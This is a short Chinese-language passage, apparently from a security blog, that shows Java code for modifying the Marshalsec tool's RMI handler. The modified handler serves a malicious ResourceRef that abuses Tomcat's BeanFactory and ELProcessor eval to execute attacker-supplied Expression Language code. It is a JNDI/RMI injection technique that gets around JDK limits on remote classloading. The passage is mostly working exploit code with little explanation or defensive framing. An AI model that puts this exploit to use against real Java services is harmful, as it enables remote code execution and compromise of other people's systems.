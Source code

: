 ## RMI服务

这里使用EL表达式+BCEL的方式来加载我们自定义的代码，不过在这个BCEL中加载的代码无法直接import拿到非JAVA核心类，所以我们自定义的代码中，需要通过反射拿到我们想要的对象数据方法（蛋疼）。

我们直接修改`Marshalsec`的`handleRMI`方法，使用我们自定义的`ResourceRef`进行替换：

```java
    private boolean handleRMI ( ObjectInputStream ois, DataOutputStream out ) throws Exception {
        int method = ois.readInt(); // method
        ois.readLong(); // hash
        if ( method != 2 ) { // lookup
            return false;
        }
        String object = (String) ois.readObject();
        System.err.println("Is RMI.lookup call for " + object + " " + method);
        out.writeByte(TransportConstants.Return);// transport op
        try ( ObjectOutputStream oos = new MarshalOutputStream(out, this.classpathUrl) ) {

            oos.writeByte(TransportConstants.NormalReturn);
            new UID().write(oos);

            System.err.println(
                    String.format(
                            "Sending remote classloading stub targeting %s",
                            new URL(this.classpathUrl, this.classpathUrl.getRef().replace('.', '/').concat(".class"))));

            ReferenceWrapper rw = Reflections.createWithoutConstructor(ReferenceWrapper.class);
            //Reference https://xz.aliyun.com/t/3787
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            ref.add(new StringRefAddr("x", getEl()));

            Reflections.setFieldValue(rw, "wrappee", ref);
            Field refF = RemoteObject.class.getDeclaredField("ref");
            refF.setAccessible(true);
            refF.set(rw, new UnicastServerRef(12345));

            oos.writeObject(rw);

            oos.flush();
            out.flush();
        }
        return true;
    }
```

另外main方法随便改改，能用就好：

```java
public static void main ( String[] args ) {
        args = new String[]{"http://127.0.0.1#Object","21345"};
        ...
}
```
